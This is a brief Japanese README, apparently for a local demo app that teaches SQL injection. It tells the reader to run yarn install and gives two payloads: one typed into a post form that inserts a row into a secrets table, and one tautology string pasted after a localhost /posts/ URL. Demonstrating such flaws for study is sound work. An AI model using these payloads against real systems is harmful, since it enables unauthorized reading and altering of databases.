 # sqlInjection
# 使い方
# yarn installしてください
# 攻撃方法 1
# ','');insert into secret_usesrs (name, email) values ('injection', 'injection')--
# を書き込みのところに入力しボタンをクリック
# 攻撃方法 2
# hoge' AND email = 'name' OR 'x' = 'x';--
# をlocalhost:xxxx/posts/以降のurlに貼り付け